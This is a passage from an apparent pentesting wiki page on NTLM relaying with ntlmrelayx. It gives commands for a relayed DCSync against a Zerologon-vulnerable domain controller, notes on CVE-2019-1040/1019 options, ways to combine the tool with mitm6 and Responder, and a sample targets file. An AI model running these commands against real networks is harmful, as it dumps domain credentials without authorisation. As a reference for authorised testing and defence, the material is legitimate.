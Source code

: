 {% tab title="DCSync" %}
A [DCSync](../credentials/dumping/dcsync.md) can also be operated with a relayed NTLM authentication, but only if the target domain controller is vulnerable to [Zerologon](../netlogon/zerologon.md) since the DRSUAPI always requires signing.

```bash
# target vulnerable to Zerologon, dump DC's secrets only
ntlmrelayx.py -t dcsync://'DOMAINCONTROLLER'

# target vulnerable to Zerologon, dump Domain's secrets
ntlmrelayx.py -t dcsync://'DOMAINCONTROLLER' -auth-smb 'DOMAIN'/'LOW_PRIV_USER':'PASSWORD'
```
{% endtab %}
{% endtabs %}

### Tips & tricks :bulb:

The ntlmrelayx tool offers features making it a very valuable asset when pentesting an Active Directory domain:

* It can work with mitm6 (for [DHCPv6 + DNS poisoning](../mitm-and-coerced-authentications/#ipv6-dns-poisoning)) by enabling IPv6 support with the `-6` option (IPv6 support is not required since most hosts will send IPv4 but using this option is recommended since it will allow relay servers to work with IPv4 and IPv6)
* It supports SMB2. It can be enabled with the `-smb2support` option
* It implements **CVE-2019-1040** with the `--remove-mic` option, usually needed when attempting "cross-protocols unsigning relays" (e.g. **SMB to SMB-with-required-signing, or SMB to LDAP/S).** This option can also be used when NTLMv1 is allowed (NTLMv1 doesn't care about MIC).
* it implements **CVE-2019-1019** with the `-remove-target` and `-machine-account` arguments
* It has the ability to attack multiple targets with the `-tf` option instead of `-t`, and the `-w` option can be set to watch the target file for changes and update target list automatically
* the target can be specified with a target protocol like `ldap://target` but the "all" keyword can be used (`all://target`). If the protocol isn't specified, it defaults to smb.
* It has the ability to relay connections for specific target users to be defined in the targets file
* It has the ability to relay a single connection (SMB only for now) to multiple targets, see below

{% hint style="info" %}
Thanks to [the "multi-relay" feature](https://github.com/SecureAuthCorp/impacket/pull/767), another attacker machine/interface can be added to the targets to combine ntlmrelayx with Responder servers. The attackers will be able capture an NTLM response with a custom challenge on an interface/machine, while relaying on another.
{% endhint %}

![](../../../.gitbook/assets/capture\_and\_relay.png)

The targets file used with the `-tf` option can contain the following

```bash
# User filter for SMB only (for now)
smb://DOMAIN\User@192.168.1.101
smb://User@192.168.1.101

# Custom ports and paths can be specified
smb://target:port
http://target:port/somepath

# Domain name can be used instead of the IP address
ldaps://someserver.domain.lan
someserver.domain.lan
```
